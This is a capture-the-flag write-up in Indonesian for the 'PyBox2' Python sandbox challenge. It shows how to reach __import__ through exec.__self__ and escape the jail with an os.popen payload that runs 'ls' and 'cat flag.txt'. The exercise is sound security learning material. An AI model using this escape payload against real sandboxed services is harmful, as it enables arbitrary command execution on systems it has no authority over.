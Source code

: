 <H1>PyBox2</H1>
<H5>Tools: Terminal, bpython</H5>
Untuk menyelesaikan masalah ini kita harus mempelejari atau mencari tahu method atau attributes dari class compile atau exec. Seperti yang sudah di berikan di hint kita bisa menggunakan 

```python
compile.__self__
```
atau

```python
exec.__self__
```
dengan menggunakan bpython sebuah command lines tools terminal untuk python interactive, saya mencoba untuk mengetahui method dati class `exec`. Kita bisa mencari tahu dengan function `dir()`. seperti ini
```python
>>> dir(exec.__self__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'C
onnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EncodingWarning', 'EnvironmentError', 'Exception', 'False', 'FileExistsError'
, 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryEr
ror', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'Ove
rflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration
', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeErro
r', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__build_class__', '__debug__', '__doc__', '__import__', '__loader_
_', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'com
plex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'hel
p', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'pri
nt', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```
dari banyaknya method dari `exec.__self__` saya memilih untuk memakai yang paling sering saya gunakan dalam ctf yaitu `__import__`. dengan begitu payload pertama akan menjadi seperti ini
```python
exec.__self__.__import__("os").popen("ls").read()
```
payload di atas bisa di baca juga seperti ini
```python
import os
#code dibawah akan execute ls dan menjadikan output nya string
os.popen("ls").read
```
output dari code diatas adalah
```bash
Dockerfile
README.md
flag.txt
logo
main.py
makefile
payload
solve.py
```
dengan begitu kita tinggal execute `cat` untuk membaca flag.txt
```python
exec.__self__.__import__("os").popen("cat flag.txt").read()
```
dengan output:
```
TCP1P{using_another_functon__self__to_get__import__}
```
opini: menurut saya gunanya `__self__` adalah untuk meng-akses class yang ada di dalam scope mirip penggunaan `this` dalam javascript